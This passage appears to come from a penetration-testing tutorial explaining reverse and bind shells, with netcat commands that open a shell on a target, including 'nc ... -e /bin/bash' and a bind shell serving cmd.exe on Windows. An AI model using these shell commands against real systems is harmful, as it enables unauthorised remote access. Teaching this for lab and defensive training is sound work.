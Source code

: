 On the attacking machine:

```
sudo nc -lvnp 443
```

On the target:

```
nc <LOCAL-IP> <PORT> -e /bin/bash
```

![img](assets/rN7YkJJ.png)

Notice that after running the command on the right, the listener receives a  connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are *listening* on our own attacking machine, and sending a connection *from* the target.

*Bind Shell example:*

Bind shells are less common, but still very useful. 

Once again, take a look at the following image. Again, on the left we have  the attacker's computer, on the right we have a simulated target. Just  to shake things up a little, we'll use a Windows target this time.  First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

```
nc -lvnp <port> -e "cmd.exe"
```

On the attacking machine:

```
nc MACHINE_IP <port>
```

![img](assets/6GUwZsw.png)

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

